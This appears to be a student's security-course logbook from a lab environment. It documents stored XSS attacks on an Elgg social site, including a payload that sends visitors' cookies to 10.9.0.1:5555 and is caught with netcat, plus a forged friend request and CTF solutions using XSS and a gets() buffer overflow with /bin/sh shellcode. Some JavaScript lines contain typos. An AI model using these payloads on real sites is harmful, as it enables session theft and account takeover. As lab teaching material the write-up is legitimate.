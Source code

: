 # TRABALHO REALIZADO NA SEMANA #10

## 3: Lab Tasks

### Task 1: Posting a Malicious Message to Display an Alert Window

>The objective of this task was to embed a javasript program which will execute when the page is loaded and will display an alter window with 'XSS'.
>
>To do this we will be using Alice as the attacker.
>
>First we will go to Alice's profile page and view the page source. Where we will find her GUID which is 56 (we just make a ctrl+f).
>
>>![week10_0](./img/logbook10/img1.png)
>
>We will use this info in order for the alert to not appear when it is Alice viewing her own profile.
>
>From that we can edit alice's profile, and conveniently for us we can edit the 'About me" section using html.\
>To inject the javascrip code we can use the html '&#60;script&#62;' with our code:
>
>>&#60;script&#62;\
>>&#8195;windows onload = function(){\
>>&#8195;&#8195;if (elgg.session.user.guit!= 56) {\
>>&#8195;&#8195;&#8195;alert('XSS');\
>>&#8195;&#8195;&#8195;}\
>>&#8195;&#8195;}\
>>&#60;/script&#62;
>
>We will add this code to her account:
>
>![week10_1](./img/logbook10/img2.png)
>
>If we then log into another account, lets say, for example, Samy. When we try to view Alice's profile page we get:
>
>![week10_2](./img/logbook10/img3.png)
>
>The attack was successful.

### Task 2: Posting a Malicious Message to Display Cookies

>Basically the task 2 was the same as the first one but with the appearance of the user's cookie.
>
>To do this we need to change the "About me" on the Alice's edit profile, on the "edit HTML" and write de comand in JS:
>
>>&#60;script&#62;\
>>&#8195;windows onload = function() {\
>>&#8195;&#8195;if (elgg.session.user.guit!= 56) {\
>>&#8195;&#8195;&#8195;alert(document.cookie);\
>>&#8195;&#8195;}\
>>&#8195;}\
>>&#60;/script&#62;
>
>>![week10_3](./img/logbook10/img4.png)
>
>If we then log into another account, lets say, for example, Samy. When we try to view Alice's profile page we get:
>
>>![week10_4](./img/logbook10/img5.png)
>
>The attack was successful.

### Task 3: Stealing Cookies from the Victim's Machine

>On this task the goal is to steal the cookies from someone who visits, in our case, Alice's page.
>
>We edited Alice's profile page 'About me' section to instead of having 'Alert(document.cookie)' have:
>
>>document.write('&#60;img src=http://10.9.0.1:5555?c='
&#43; escape(document.cookie) + ' &#62;');
>
>The '10.9.0.1' is the IP address of the machine while '5555' correspondes to the port location where script will send an HTTP GET to the machine.
>
>The code will be:
>
>>&#60;script&#62;\
>>&#8195;windows onload = function() {\
>>&#8195;&#8195;if (elgg.session.user.guit!= 56) {\
>>&#8195;&#8195;&#8195;document.write('&#60;img src=http://10.9.0.1:5555?c='
&#43; escape(document.cookie) + ' &#62;');\
>>&#8195;&#8195;}\
>>&#8195;}\
>>&#60;/script&#62;
>
>>![week10_5](./img/logbook10/img6.png)
>
>The next step was to open terminal and to use the command 'nc -lknv 5555' which will allow us to see what we are able to steal. (This server program basically prints out whatever is sent by the client and sends to the client whatever is typed by the user running the server.)
>
>When we log in with Samy's account and try to visit Alice's profile we will be redirected to a blank page (trying to load the supposed "image" from our code). But what actually happens is that out terminal will have logged his info: 
>
>
>![week10_6](./img/logbook10/img7.png)
>
>This task was also successful and Alice now has Samy's session cookie.

### Task 4: Becoming the Victim’s Friend

>On this task we simulated a request HTML with JS.
>
>The objective was to simulate an "add friend" request without doing a click on the button.
>
>So we basically need to write JS in the "About Me" section of the Samy:
>
>>![week_7](./img/logbook10/img8.png)
>
>And on the section "sendurl = ...;" we putted the URL of that request.
>
>We adquire that by logging in as Alice, access to Network tab with inspect the page and add Samy as a friend. We've got an GET of that and copied the URL of that.
>
>Now if we enter the Samy's profile, us being Alice, without pressing the "Add Friend" button, this was already pressed.
>
>>![week10_8](./img/logbook10/img9.png)
>>
>>![week10_9](./img/logbook10/img10.png)
>
>The attack was successful.

# CTF

### Challenge 1

>On the first challenge we had a web server at ctf-fsi.fe.up.pt:5002, where we could send requests to the admin asking for the flag.
>
>Since we were able to embed a javasript, we tried using that.\
>By using the following script we were able to get the flag for the first challenge:
>
>>![week10_ctf1](./img/logbook10/ctf1.png)
>
>The flag took a while to appear but what this code does is get the html with the id "giveflag" and click on it.\
>The explanation is that the element when click had a funtion that give us the flag.
>
>Here is the flag:
>
>>![week10_ctf2](./img/logbook10/ctf2.png)

### Challenge 2

>After looking at the main.c provided we found out that the vulnerability was at gets(buffer), since it allows us to write outside of the supposed place allocated for the variable that is being altered (which means this is a buffer overflow attack).
>
>We used an exploit file in python and with the help of pwn (the same tool we used on a past lab), with this we were able to get the address of of the buffer (which is vulnerable).
>
>We then used gdb to analyse the code and got that the offset we needed to alter the return address was 108 bytes.
>
>we also put shellcode that calls /bin/sh, and x90 (which means to advance).
>
>Here is the exploit we used:
>
>>![week10_ctf3](./img/logbook10/ctf3.png)
>
>After running it we get this, which shows the flag:
>
>>![week10_ctf4](./img/logbook10/ctf4.png)
